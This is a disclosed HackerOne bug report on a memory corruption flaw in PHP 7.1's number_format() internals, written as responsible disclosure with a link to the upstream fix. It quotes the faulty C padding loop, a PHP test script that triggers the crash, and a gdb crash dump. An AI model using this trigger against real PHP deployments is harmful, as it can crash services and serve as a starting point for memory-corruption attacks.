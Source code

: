 # Memory corruption due to missing check size in _php_math_number_format_ex()

## Report Details
- **Report ID**: 180572
- **URL**: https://hackerone.com/reports/180572
- **State**: Closed
- **Severity**: low
- **Submitted**: 2016-11-07T04:07:08.680Z
- **Disclosed**: 2019-11-12T09:21:58.283Z

## Reporter
- **Username**: fosec
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
The fix for this bug has been committed: https://bugs.php.net/bug.php?id=73424
Description:
------------
I have found some vulnerable code at ```_php_math_number_format_ex()``` function. ```_php_math_number_format_ex()``` function is an internal function which is called from ```number_format()``` function. ```number_format()``` function takes in a number and uses it as the number of decimal points. If the number of decimal points is huge, it may lead to memory corruption.

``` c
PHPAPI zend_string *_php_math_number_format_ex(double d, int dec, char *dec_point,
		size_t dec_point_len, char *thousand_sep, size_t thousand_sep_len)
{
....
    /* copy the decimal places.
	 * Take care, as the sprintf implementation may return less places than
	 * we requested due to internal buffer limitations */
	if (dec) {
		int declen = (int)(dp ? s - dp : 0);
		int topad = dec > declen ? dec - declen : 0;

		/* pad with '0's */
		while (topad--) {
			*t-- = '0';
        }
....
    }
}
```

Test script:
---------------
``` php
<?php
ini_set('memory_limit', -1);
number_format(1.337E+308, PHP_INT_MAX, "BBBBBBBBB", str_repeat("A", 0x0160b60c));
?>
```
Actual result:
--------------
```
 [----------------------------------registers-----------------------------------]
EAX: 0x737774ab
EBX: 0xb7867283 --> 0x30 ('0')
ECX: 0x35c88b54
EDX: 0xb5c88a14 --> 0x30 ('0')
ESI: 0xb7867145 (".", '0' <repeats 199 times>...)
EDI: 0x7ffffec1
EBP: 0xb7867010 ("1337", '0' <repeats 13 times>, "977059649492062330579754870427181437339291312645302506433696319272398884101913791272347002725778172418503727508120535851302028850301527089221876489630532016587850114320486631775390034"...)
ESP: 0xbfffbf00 --> 0x0
EIP: 0x8279538 (<_php_math_number_format_ex+776>:       mov    BYTE PTR [ecx+eax*1],0x30)
EFLAGS: 0x10217 (CARRY PARITY ADJUST zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8279531 <_php_math_number_format_ex+769>:  sub    ecx,edi
   0x8279533 <_php_math_number_format_ex+771>:  nop
   0x8279534 <_php_math_number_format_ex+772>:  lea    esi,[esi+eiz*1+0x0]
=> 0x8279538 <_php_math_number_format_ex+776>:  mov    BYTE PTR [ecx+eax*1],0x30
   0x827953c <_php_math_number_format_ex+780>:  sub    eax,0x1
   0x827953f <_php_math_number_format_ex+783>:  cmp    eax,0xffffffff
   0x8279542 <_php_math_number_format_ex+786>:  jne    0x8279538 <_php_math_number_format_ex+776>
   0x8279544 <_php_math_number_format_ex+788>:  sub    edx,edi
[------------------------------------stack-------------------------------------]
0000| 0xbfffbf00 --> 0x0
0004| 0xbfffbf04 --> 0x87f5103 ("%.*F")
0008| 0xbfffbf08 --> 0x7fffffff
0012| 0xbfffbf0c --> 0xd28a58c8
0016| 0xbfffbf10 --> 0x7fe7cca4
0020| 0xbfffbf14 --> 0xb785f134 --> 0x836d410 (<ZEND_DO_ICALL_SPEC_RETVAL_USED_HANDLER>:        push   ebp)
0024| 0xbfffbf18 --> 0xb7867000 --> 0x1
0028| 0xbfffbf1c --> 0xc888a05
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
_php_math_number_format_ex (d=<optimized out>, dec=0x7fffffff, dec_point=0xb7803450 "BBBBBBBBB", dec_point_len=0x9, thousand_sep=0xb5e00010 'A' <repeats 200 times>..., thousand_sep_len=0x160b60c)
    at /home/skynet/PHP-7.1/ext/standard/math.c:1190
1190                            *t-- = '0';
gdb-peda$ bt
#0  _php_math_number_format_ex (d=<optimized out>, dec=0x7fffffff, dec_point=0xb7803450 "BBBBBBBBB", dec_point_len=0x9, thousand_sep=0xb5e00010 'A' <repeats 200 times>..., thousand_sep_len=0x160b60c)
    at /home/skynet/PHP-7.1/ext/standard/math.c:1190
#1  0x082797db in zif_number_format (execute_data=0xb7814080, return_value=0xbfffbfd0) at /home/skynet/PHP-7.1/ext/standard/math.c:1264
#2  0x0836d576 in ZEND_DO_ICALL_SPEC_RETVAL_UNUSED_HANDLER () at /home/skynet/PHP-7.1/Zend/zend_vm_execute.h:628
#3  0x0835e082 in execute_ex (ex=0xb7814020) at /home/skynet/PHP-7.1/Zend/zend_vm_execute.h:429
#4  0x083ad11b in zend_execute (op_array=op_array@entry=0xb7864180, return_value=return_value@entry=0x0) at /home/skynet/PHP-7.1/Zend/zend_vm_execute.h:474
#5  0x0831d8c0 in zend_execute_scripts (type=type@entry=0x8, retval=retval@entry=0x0, file_count=file_count@entry=0x3) at /home/skynet/PHP-7.1/Zend/zend.c:1464
#6  0x082bf44b in php_execute_script (primary_file=primary_file@entry=0xbfffe2b8) at /home/skynet/PHP-7.1/main/main.c:2533
#7  0x083af46a in do_cli (argc=argc@entry=0x3, argv=argv@entry=0x88c5a88) at /home/skynet/PHP-7.1/sapi/cli/php_cli.c:990
#8  0x0806d484 in main (argc=0x3, argv=0x88c5a88) at /home/skynet/PHP-7.1/sapi/cli/php_cli.c:1378
#9  0xb7c08943 in __libc_start_main (main=0x806cfb0 <main>, argc=0x3, ubp_av=0xbffff564, init=0x83b6fc0 <__libc_csu_init>, fini=0x83b7030 <__libc_csu_fini>, rtld_fini=0xb7fee700 <_dl_fini>,
    stack_end=0xbffff55c) at libc-start.c:274
#10 0x0806d511 in _start ()
gdb-peda$
```

## Attachments
No attachments
